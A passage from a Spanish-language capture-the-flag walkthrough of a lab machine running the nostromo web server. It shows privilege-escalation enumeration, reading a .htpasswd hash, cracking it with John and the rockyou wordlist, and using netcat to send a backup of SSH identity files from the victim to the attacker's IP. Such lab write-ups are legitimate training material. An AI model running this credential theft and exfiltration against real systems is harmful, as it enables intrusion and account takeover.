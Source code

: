 Enumeramos el systema

```bash
cd /
id
sudo -l
find \-perm -4000 2>/dev/null
cd /var
ls
cd nostromo
cd conf
cat nhttpd.conf
cat /var/nostromo/conf/.htpasswd
```

Encontramos el hash del usuario david vamos a copiarlo en la maquina de atacante, y intentamos bruteforcear con **John**

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Encontramos una contraseña intentamos ponerla haciendo un `su david` y `su root`, pero no va. La conclusion a la que hay que llegar
es que cuando miras el fichero nhttpd.conf, dice que hay un directorio **public_www**.


### Investigacion del public_www {-}

Intentamos ver si esta en el directorio `/home/david/public_www` y efectivamente. hay un fichero comprimido y nos vamos a transferir 
a nuestro equipo de atacante.

1. En el equipo de atacante

    ```bash
    nc -nlvp 443 > comprimido.tgz
    ```

1. En el equipo victima

    ```bash
    nc 10.10.14.20 443 < backup-ssh-identity-files.tgz
    ```

Descomprimimos el archivo con el comando

```bash
7z l comprimido.tgz
7z x comprimido.tgz
7z l comprimido.tar
7z x comprimido.tar 
```

Hay la clave privado del usuario david pero esta protegida por contraseña. La tenemos que romper.
